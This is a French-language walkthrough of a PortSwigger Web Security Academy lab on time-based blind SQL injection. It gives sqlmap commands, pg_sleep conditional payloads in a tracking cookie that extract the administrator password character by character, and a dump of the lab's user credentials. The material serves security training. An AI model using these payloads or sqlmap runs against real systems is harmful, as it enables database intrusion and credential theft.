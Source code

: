 # Lab

https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval

## Exploit

`sqlmap -u https://0aa2007a045965b6842b956000a10022.web-security-academy.net/ --cookie="TrackingId=0Hf3ym7MMqzijjRC" --level=2`

```sql
Parameter: TrackingId (Cookie)
    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: TrackingId=0Hf3ym7MMqzijjRC';SELECT PG_SLEEP(5)--
```

Vérifier que l'utilisateur `administrator` existe:

```sql
TrackingId=0Hf3ym7MMqzijjRC'%3b SELECT CASE WHEN (username='administrator') THEN pg_sleep(1) ELSE pg_sleep(0) END FROM users--
```

Trouver la taille du mot de passe de l'utilisateur `administrator`:

```sql
TrackingId=0Hf3ym7MMqzijjRC'%3b SELECT CASE WHEN (LENGTH(password)=20) THEN pg_sleep(1) ELSE pg_sleep(0) END FROM users WHERE username='administrator'--
```

Le mot de passe de l'utilisateur `administrator` est de 20 caractères.

Trouver le caractère à la position 1 du mot de passe de l'utilisateur `administrator`:

```sql
TrackingId=0Hf3ym7MMqzijjRC'%3b SELECT CASE WHEN (SUBSTRING(password,1,1)='1') THEN pg_sleep(1) ELSE pg_sleep(0) END FROM users WHERE username='administrator'--
```

Le caractère à la position 1 du mot de passe de l'utilisateur `administrator` est `1`.

Trouver le caractère à la position 2 du mot de passe de l'utilisateur `administrator`:

```sql
TrackingId=0Hf3ym7MMqzijjRC'%3b SELECT CASE WHEN (SUBSTRING(password,2,1)='5') THEN pg_sleep(1) ELSE pg_sleep(0) END FROM users WHERE username='administrator'--
```

Et ainsi de suite jusqu'à trouver le mot de passe complet de l'utilisateur `administrator` qui est `159rhz8ey1awjh4slmjw`.

Nous pouvons aussi utiliser `sqlmap` pour trouver le mot de passe de l'utilisateur `administrator`:

```bash
$ sqlmap -u https://0aa2007a045965b6842b956000a10022.web-security-academy.net/ --cookie="TrackingId=0Hf3ym7MMqzijjRC" --level=2 --dbs --batch
[...]
$ sqlmap -u https://0aa2007a045965b6842b956000a10022.web-security-academy.net/ --cookie="TrackingId=0Hf3ym7MMqzijjRC" --level=2 -D users --tables --batch
[...]
$ sqlmap -u https://0aa2007a045965b6842b956000a10022.web-security-academy.net/ --cookie="TrackingId=0Hf3ym7MMqzijjRC" --level=2 -D users -T users --dump --batch
Database: public
Table: users
[3 entries]
+---------------+----------------------+
| username      | password             |
+---------------+----------------------+
| administrator | 159rhz8ey1awjh4slmjw |
| carlos        | 9gtjenpqg9crjsqp44bn |
| wiener        | l04p4qmwrni9im6tl6l3 |
+---------------+----------------------+
```
